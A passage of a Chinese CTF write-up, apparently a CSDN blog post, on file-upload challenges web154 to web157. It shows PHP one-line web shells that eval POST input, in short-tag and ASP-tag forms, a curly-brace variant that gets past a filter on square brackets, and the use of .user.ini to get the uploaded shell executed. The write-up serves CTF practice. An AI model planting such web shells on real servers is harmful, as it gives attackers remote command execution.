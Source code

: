 

<img src="https://i-blog.csdnimg.cn/blog_migrate/9798e91c05db37d8f045ea04addc6192.png" alt="" style="max-height:90px; box-sizing:content-box;" />


这里只是上传 png就报错

说明存在内容检测 多半是php格式的检测

我们可以使用其他的

```cobol
<?= eval($_POST[1]);?>
 
<? eval($_POST[1]);?>
 
<% eval($_POST[1]);%>
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/d4614bdbccf4f94b5314ccef4c4eaf84.png" alt="" style="max-height:158px; box-sizing:content-box;" />


那我们看看能不能还可以使用 .user.ini



<img src="https://i-blog.csdnimg.cn/blog_migrate/9a50a3cd05bad2db3e6f27eec6901eb6.png" alt="" style="max-height:76px; box-sizing:content-box;" />


依然可以

## web155

使用上面的方法还是可以

## web156  对 [] 的过滤 （内容检测）



<img src="https://i-blog.csdnimg.cn/blog_migrate/b85016300e1245121290f9eae1fb1735.png" alt="" style="max-height:201px; box-sizing:content-box;" />


发现又对内容进行过滤了

经过排查 发现是对 [] 进行过滤了 所以我们直接使用 {}即可绕过

```php
<?= eval($_POST{1});?>
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/3447f25b20f2f19ca436307eb3406077.png" alt="" style="max-height:614px; box-sizing:content-box;" />


然后配合 user.ini 执行命令

## web157  过滤[] {} ;
